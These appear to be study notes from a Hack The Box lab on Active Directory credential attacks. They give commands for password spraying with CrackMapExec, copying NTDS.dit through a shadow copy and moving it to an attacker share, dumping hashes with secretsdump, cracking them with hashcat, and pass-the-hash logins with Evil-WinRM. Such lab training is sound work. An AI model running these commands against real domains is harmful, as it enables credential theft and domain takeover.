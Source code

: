 We can manually create our list(s) or use an automated list generator such as the Ruby-based tool Username Anarchy to convert a list of real names into common username formats. Once the tool has been cloned to our local attack host using Git, we can run it against a list of real names as shown in the example output below:
```
https://github.com/urbanadventurer/username-anarchy
```
```
./username-anarchy -i /home/ltnbob/names.txt 
```
##### Launching the Attack with CrackMapExec
```
crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```

## Capturing NTDS.dit
To make a copy of the NTDS.dit file, we need local admin (Administrators group) or Domain Admin (Domain Admins group) (or equivalent) rights. We also will want to check what domain privileges we have.
### Creating Shadow Copy of C:
We can use vssadmin to create a Volume Shadow Copy (VSS) of the C: drive or whatever volume the admin chose when initially installing AD.
```
Evil-WinRM PS C:\> vssadmin CREATE SHADOW /For=C:\
```
### Copying NTDS.dit from the VSS
```
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```
Pay attention the `HarddiskVolumeShadowCopy<NUMBER>`
### You need the system.save file as well
```
reg SAVE HKLM\SYSTEM C:\NTDS\SYSTEM
```
### Transferring NTDS.dit to Attack Host
```
Evil-WinRM PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 
```
A Faster Method: Using cme to Capture NTDS.dit
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
## A Faster Method: Using cme to Capture NTDS.dit
```
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```
### After capturing the NTDS.dit file
```
impacket-secretsdump -ntds /home/htb-ac-944115/Desktop/NTDS.dit -hashes lmhash:nthash LOCAL -outputfile ntlmHashes -system /home/htb-ac-944115/Desktop/system.save 
```
#### Cracking a Single Hash with Hashcat
```
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```
#### Pass-the-Hash Considerations
Pass-the-Hash with Evil-WinRM Example
```
evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```
# Credential Hunting in Windows
